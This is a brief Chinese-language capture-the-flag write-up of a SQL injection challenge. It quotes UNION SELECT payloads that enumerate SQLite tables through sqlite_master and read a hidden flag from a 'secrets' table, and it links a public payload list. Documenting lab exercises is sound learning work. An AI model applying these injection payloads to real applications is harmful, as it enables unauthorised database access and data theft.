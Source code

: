 1.思考、嘗試過程
===
![image](https://hackmd.io/_uploads/BydscVRoxg.png)
- 這題根據題目描述，可以知道要使用 SQL injection 獲取隱藏在資料庫中的 flag。
- 因此我上網搜尋有關 SQL injection 的 payload，找到這個[sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list) github repo，參考裡面提供的 payload 進行測試。
- 首先我使用了 
     > UNION SELECT username, password, role FROM members - - 
- 獲得了以下畫面:
    ![image](https://hackmd.io/_uploads/H15-lSRseg.png)
- 從圖片中可以確認說這題存在者SQL injecion的漏洞。
- 知道這件事後，我們就可以使用
    > UNION SELECT name, NULL, NULL FROM sqlite_master WHERE type='table' - 
- 獲得資料庫中的資料表:
![image](https://hackmd.io/_uploads/S1-xlBAogg.png)
- 可以從圖片中看到 secret 這個資料表，因此接下來只要去讀取這個資料表，看看裡面有什麼內容:
     > username= CYSUN' UNION SELECT sql,sql,sql FROM sqlite_master WHERE tbl_name='secrets

    ![image](https://hackmd.io/_uploads/rJR4ZrCjlg.png)
- 可以從圖片發現有 ID 和 flag 這兩個欄位，因此我嘗試去讀取 flag 這個欄位中的內容:
    > UNION SELECT flag,flag,flag FROM secrets --
- 執行完後，就發現這題的 flag 了
    ![image](https://hackmd.io/_uploads/Skx5-HColl.png)

2.參考資源
===
[sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)
